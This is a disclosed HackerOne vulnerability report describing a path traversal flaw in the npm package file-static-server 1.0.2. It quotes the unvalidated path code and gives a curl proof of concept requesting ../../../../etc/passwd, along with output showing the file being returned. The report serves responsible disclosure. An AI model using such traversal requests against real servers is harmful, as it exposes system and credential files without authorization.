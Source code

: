 # [file-static-server] Path Traversal allows to read content of arbitrary file on the server

## Report Details
- **Report ID**: 310671
- **URL**: https://hackerone.com/reports/310671
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-01-30T23:37:05.758Z
- **Disclosed**: 2018-06-14T19:48:57.683Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal vulnerability in file-static-server module, which allows to read arbitrary file from the remote server.

## Module

**file-static-server**

[no description provided]

https://www.npmjs.com/package/file-static-server

version: 1.0.2

Stats
0 downloads in the last day
3 downloads in the last week
20 downloads in the last month

~250 estimated downloads per year


## Description

Vulnerability exists, because function which creates path for file to read does not implement any validation of input data and takes path just as is:

```javascript
// ./node_modules/file-static-server/lib/file.js, line 21:
getFilePath: function () {
    if (this.filePath) {
      return this.filePath
    }
    var url = this.req.url
    var len = process.argv.length
    this.filePath = path.join(process.argv[len - 1], url)
    return this.filePath
  },
```

```this.filePath``` is the used directly in function, which reads file:

```javascript
// ./node_modules/file-static-server/lib/file.js, line 87:
getStream: function () {
    return fs.createReadStream(this.filePath)
  }
```

## Steps To Reproduce:

- install ```file-static-server``` module

```
$ npm install file-static-server
```

- run server from command line:

```
$ ./node_modules/file-static-server/bin/file-static-server -P 8080 ./
server start at 8080
```

- use following command to confirm the vulnerability (pelase adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
```

Result:

```
*   Trying 192.168.1.1...
* TCP_NODELAY set
* Connected to 192.168.1.1 (192.168.1.1) port 8080 (#0)
> GET /../../../../etc/passwd HTTP/1.1
> Host: 192.168.1.1:8080
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< server: static-1.0.2
< content-type: application/octet-stream; charset=utf-8
< content-length: 6774
< etag: 898b8e56263723beb06955d4a7c2944d1eff7a21
< cache-control: public; max-age=3153600000000
< Date: Tue, 30 Jan 2018 23:27:23 GMT
< Connection: keep-alive
<
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
_uucp:*:4:4:Unix to Unix Copy Protocol:/var/spool/uucp:/usr/sbin/uucico
_taskgated:*:13:13:Task Gate Daemon:/var/empty:/usr/bin/false
(...)
```

## Supporting Material/References:

Configuration:

- macOS 10.13.3
- Chromium 66.0.3331.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.3
- npm version: 5.5.1
- curl 7.54.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows to read content of any file on the server

## Attachments
No attachments
